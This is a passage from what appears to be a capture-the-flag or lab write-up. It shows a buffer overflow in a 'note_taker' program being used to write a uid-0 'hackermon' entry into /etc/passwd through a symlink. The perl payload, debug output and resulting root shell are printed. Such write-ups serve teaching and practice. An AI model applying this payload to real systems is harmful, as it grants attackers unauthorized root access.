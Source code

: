 ```console
root
root@kali:/home/kali#
```

And just like so we got a brand new root access !

## Bonus

If the buffer for the datafile is not large enough, we may not be able to fit the full `/etc/passwd` string length. However we can use the same trick as for spawning a bash : symbolic file link.

```console
$ ln -s /etc/passwd passwd
```
We now have to change the padding so that only the last part of the file (`passwd`) overflow the datafile buffer.
```console
./note_taker $(perl -e 'print "hackermon:AA6tQYSfGxd/A:0:0:"."A"x68 .":/root:/tmp/etc/passwd"')
[DEBUG] buffer @ 0x804d1a0: 'hackermon:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd'
[DEBUG] datafile @ 0x804d210: 'passwd'
Note has been saved. 
Segmentation fault
```
The datafile correctly outputs `passwd` and if we try to change user :
```console
su hackermon
Password : #password
root@kali:/home/kali# whoami
root
root@kali:/home/kali#
```
